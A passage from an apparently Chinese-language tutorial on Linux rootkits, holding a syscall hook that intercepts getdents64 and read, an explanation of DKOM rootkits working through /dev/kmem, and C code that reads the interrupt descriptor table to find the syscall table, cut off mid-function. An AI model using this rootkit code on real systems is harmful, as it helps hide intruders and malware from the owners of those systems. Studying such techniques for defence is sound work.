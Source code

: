 ``` c
        );
}
..
void hook(void)
{
    register int eax asm("eax");
    switch(eax)
    {
        case __NR_getdents64:
            CallHookedSyscall(Sys_getdents64);
            break;
        case __NR_read:
            CallHookedSyscall(Sys_read);
               break; 
        default:
            JmPushRet(dire_call);
           break;
    } 
    //jmp to original syscall idt handler 
    JmPushRet( after_call );
}
```

## 0X04 DKOM Rootkit

DKOM means direct kernel object manipulation-直接内核对象操作。所有的操作系统(linux、windows)都会把内核中的运行状态(包括进程信息、系统内核状态)这些数据以对象的形式保存下来，包括:结构体、队列与数组。这些内核状态信息往往保存在内核空间的某个地址段中，当我们通过系统向内核查询这些”内核状态信息”(运行进程的列表、开放的端口等)时，这些数据就被解析并返回。因为这些数据是保存在内存中的，所以可以直接去操作它们。 其主要利用/dev/kmem技术。  

什么是/dev/kmem? 指的是kernel看到的虚拟内存的全镜像。可以用来访问kernel的内容，查看kernel的变量，也是DKOM rootkit的目标对象。注意还有个设备叫做/dev/mem,这是物理内存的全镜像，可以用来访问物理内存。  

以下是DKOM rootkit利用/dev/kmem来获取syscall table地址的代码：  
``` c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
struct {
        unsigned short limit;
        unsigned int base;
} __attribute__ ((packed)) idtr;
struct {
        unsigned short off1;
        unsigned short sel;
        unsigned char none,flags;
        unsigned short off2;
} __attribute__ ((packed)) idt;
int kmem;
void readkmem (void *m,unsigned off,int sz)
{
        if (lseek(kmem,off,SEEK_SET)!=off) {
                perror("kmem lseek"); exit(2);
        }
        if (read(kmem,m,sz)!=sz) {
                perror("kmem read"); exit(2);
        }
}
#define CALLOFF 100     /* we'll read first 100 bytes of int $0x80*/
main ()
{
        unsigned sys_call_off;
        unsigned sct;
        char sc_asm[CALLOFF],*p;
```